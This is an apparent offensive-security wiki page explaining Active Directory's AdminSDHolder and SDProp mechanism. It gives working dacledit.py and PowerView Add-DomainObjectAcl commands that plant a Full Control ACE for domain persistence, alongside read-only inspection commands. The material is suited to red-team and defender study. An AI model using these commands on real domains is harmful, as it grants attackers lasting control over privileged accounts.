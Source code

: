 # AdminSDHolder

## Theory

AdminSdHolder protects domain objects against permission changes. "AdminSdHolder" either refers to a domain object, a "worker code" or an operation depending on the context.&#x20;

The operation consists in the PDC (Principal Domain Controller) Emulator restoring pre-set permissions for high-privilege users every 60 minutes. Understanding what DACLs/ACEs are and how to abuse them is a requirement to the understanding of this persistence technique (see [Access Controls abuse](broken-reference)).

The operation is conducted by a "worker code" called **SDProp** (Security Descriptor propagator).&#x20;

SDProp propagates AdminSdHolder's Security Descriptor (which contains the DACL) to every protected object every 60 minutes if their SD is different.

The AdminSdHolder object is located at `CN=AdminSdHolder,CN=SYSTEM,DC=DOMAIN,DC=LOCAL`. For instance, the default AdminSdHolder object's DACL contains the following.

* Authenticated Users: **Read**
* SYSTEM: **Full Control**
* Administrators: **Modify**
* Domain Admins: **ReadAndExecute**
* Enterprise Admins: **ReadAndExecute**

The default protected objects are the following.

* member users (possibly nested) of the following groups: `Account Operators`, `Administrators`, `Backup Operators`, `Domain Admins`, `Domain Controllers`, `Enterprise Admins`, `Print Operators`, `Read-only Domain Controllers`, `Replicator`, `Schema Admins`, `Server Operators`
* the following users: `Administrator`, `krbtgt`

{% hint style="info" %}
It's worth noting the members of the `Domain Controllers` and `Read-Only Domain Controllers` groups are not protected ([source](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-adts/a0d0b4fa-2895-4c64-b182-ba64ad0f84b8)), only the groups are.
{% endhint %}

{% hint style="info" %}
When talking about `AdminSdHolder`, the `AdminCount` attribute is usually mentioned. This attribute is automatically set on an object when adding it to a protected group. Originally, the purpose was to improve SDProp's performance. `AdminCount` cannot be used for malicious purposes and is now mainly informative.

Also, `AdminCount` will block inheritance. This means that setting inheritence in the ACE added to `AdminSdHolder` will be mostly useless. For instance, domain controllers objects are part of the Domain Controller group (at `CN=Domain Controllers,CN=Users`) which has `AdminCount` set to 1. While a new ACE set to `AdminSdHolder` will propagate to the group, its members will not inherit it.
{% endhint %}

## Practice

Once sufficient privileges are obtained, attackers can abuse AdminSdHolder to get persistence on the domain by modifying the AdminSdHolder object's DACL.&#x20;

Let's say an attacker adds the following ACE to AdminSdHolder's DACL: `attackercontrolleduser: Full Control`.

At the next run of SDProp, `attackercontrolleduser` will have a `GenericAll` privilege over all protected objects (Domain Admins, Account Operators, and so on).

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this can be done with [Impacket](https://github.com/SecureAuthCorp/impacket)'s dacledit.py (Python).

:warning: _July 25th 2023, the_ [_Pull Request (#1291)_](https://github.com/SecureAuthCorp/impacket/pull/1291) _is still pending._

```bash
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'
```

AdminSdHolder's DACL can then be inspected with the same utility.

```bash
dacledit.py -action 'read' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'
```
{% endtab %}

{% tab title="Windows" %}
This can be done in PowerShell with `Add-DomainObjectAcl` from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)'s [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) module.

```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' -PrincipalIdentity spotless -Verbose -Rights All
```

AdminSdHolder's DACL can then be inspected with `Get-DomainObjectAcl`.

```powershell
# Inspect all AdminSdHolder's DACL
Get-DomainObjectAcl -SamAccountName "AdminSdHolder" -ResolveGUIDs

# Inspect specific rights an object has on AdminSdHolder (example with a user)
sid = Get-DomainUser "someuser" | Select-Object -ExpandProperty objectsid
Get-DomainObjectAcl -SamAccountName "AdminSdHolder" -ResolveGUIDs | Where-Object {$_.SecurityIdentifier -eq $sid}
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://adsecurity.org/?p=1906" %}

{% embed url="https://docs.microsoft.com/en-us/archive/blogs/askds/five-common-questions-about-adminsdholder-and-sdprop" %}

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence" %}
